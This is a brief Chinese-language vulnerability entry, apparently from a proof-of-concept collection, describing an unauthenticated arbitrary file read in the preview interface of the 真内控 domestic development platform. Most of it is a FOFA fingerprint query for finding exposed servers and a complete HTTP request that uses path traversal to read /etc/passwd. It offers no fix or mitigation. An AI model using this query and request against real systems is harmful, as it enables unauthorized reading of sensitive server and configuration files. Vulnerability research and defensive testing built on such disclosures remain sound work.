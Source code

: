 ## 真内控国产化开发平台接口preview任意文件读取漏洞

真内控国产化平台 preview接口存在任意文件读取漏洞，未经身份验证的攻击者可以通过构造精心设计的请求，成功利用漏洞读取服务器上的任意文件，包括敏感系统文件和应用程序配置文件等。导致系统处于极不安全的状态。

## fofa

```
body="js/npm.echarts.js"
```

## poc

```
GET /print/billPdf/preview?urlPath=../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```

![image-20240621183258115](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406211832171.png)